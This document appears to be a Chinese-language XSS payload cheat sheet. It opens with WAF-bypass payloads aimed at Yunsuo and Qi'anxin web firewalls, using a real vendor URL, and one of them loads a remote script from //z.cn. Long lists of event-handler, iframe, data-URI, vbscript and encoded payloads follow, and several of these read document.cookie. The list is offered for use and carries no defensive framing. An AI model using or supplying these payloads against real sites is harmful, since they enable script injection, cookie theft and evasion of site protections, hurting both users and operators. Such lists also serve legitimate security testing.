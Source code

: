 

**云锁+奇安信waf**

```
http://www.yunsuo.com.cn/ht/dynamic/20190903/259.html?id=1<video/src/onloadstart=top[`al`%2B`ert`](1);>
http://www.yunsuo.com.cn/ht/dynamic/20190903/259.html?id=1<video/src/onloadstart=top[a='al',b='ev',b%2ba](appendChild(createElement(`script`)).src=`//z.cn`);>
```



**一些新奇的xss playload**

```
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<BODY BACKGROUND="javascript:alert('XSS')">
<input onfocus=alert(1) autofocus>
<h1 onmousemove="alert(1)">title</h1>
<select onfocus=alert(1) autofocus>
<iframe src="vbscript:msgbox(1)"></iframe> 
<iframe src="javascript:alert(1)"></iframe>
<iframe src="vbscript:msgbox(1)"></iframe>
<iframe onload=alert(1)></iframe>
<iframe src="data:text/html,<script>alert(0)</script>"></iframe> 
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe> 
</iframe><iframe src="vbscript:msgbox(1)"></iframe>
</iframe><iframe src="data:text/html,<script>alert(0)</script>"></iframe>
<details open ontoggle=prompt(/xss/)>
<plaintext/onmouseover=prompt(1)>
javascript://comment％250aalert(1) 
<img src=x onerror=confirm(1)>
<video><source onerror=alert(1)>
<audio src=x onerror="alert(1)">
<body onload=alert(1)>
<body onscroll=alert(1);><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
<textarea onfocus=alert(1) autofocus>
```



**其它**

```
</span><script>alert('hello，gaga!');</script><s>
<script>alert('hello，gaga!');</script>
>"'><img src="javascript.:alert('XSS')">
>"'><script>alert('XSS')</script>
<table background='javascript.:alert(([code])'></table>
<object type=text/html data='javascript.:alert(([code]);'></object>
"+alert('XSS')+"
'><script>alert(document.cookie)</script>
='><script>alert(document.cookie)</script>
<script>alert(document.cookie)</script>
<script>alert(vulnerable)</script>
<s&#99;ript>alert('XSS')</script>
<img src="javas&#99;ript:alert('XSS')">
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
<script>alert('Vulnerable')</script>
a.jsp/<script>alert('Vulnerable')</script>
"><script>alert('Vulnerable')</script>
<IMG SRC="javascript.:alert('XSS');">
<IMG src="/javascript.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"('XSS')>
```